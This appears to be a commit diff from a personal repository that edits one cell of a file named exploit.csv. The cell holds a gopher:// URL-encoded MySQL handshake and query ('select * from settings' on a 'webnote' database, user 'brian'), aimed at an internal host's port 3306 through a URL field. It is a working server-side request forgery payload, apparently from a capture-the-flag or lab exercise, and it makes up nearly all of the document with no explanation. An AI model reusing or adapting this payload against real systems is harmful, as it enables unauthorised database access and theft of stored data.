

Before and after one commit to LeKvND/lekvnd.github.io, a CSV file: exploit.csv, drawn as a sheet; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update exploit.csv

```diff
--- a/exploit.csv
+++ b/exploit.csv
-C2 (catalogURL): gopher://10.10.10.53:3306/_%a4%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%72%69%61%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%25%00%00%00%03%75%73%65%20%77%65%62%6e%6f%74%65%3b%20%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%73%65%74%74%69%6e%67%73%3b%01%00%00%00%01
+C2 (catalogURL): gopher://10.10.10.53:3306/_%a4%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%72%69%61%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%25%00%00%00%03%75%73%65%20%77%65%62%6e%6f%74%65%3b%20%53%45%4c%45%43%54%20%2a%20%46%52%4f%4d%20%73%65%74%74%69%6e%67%73%3b%01%00%00%00%01
```
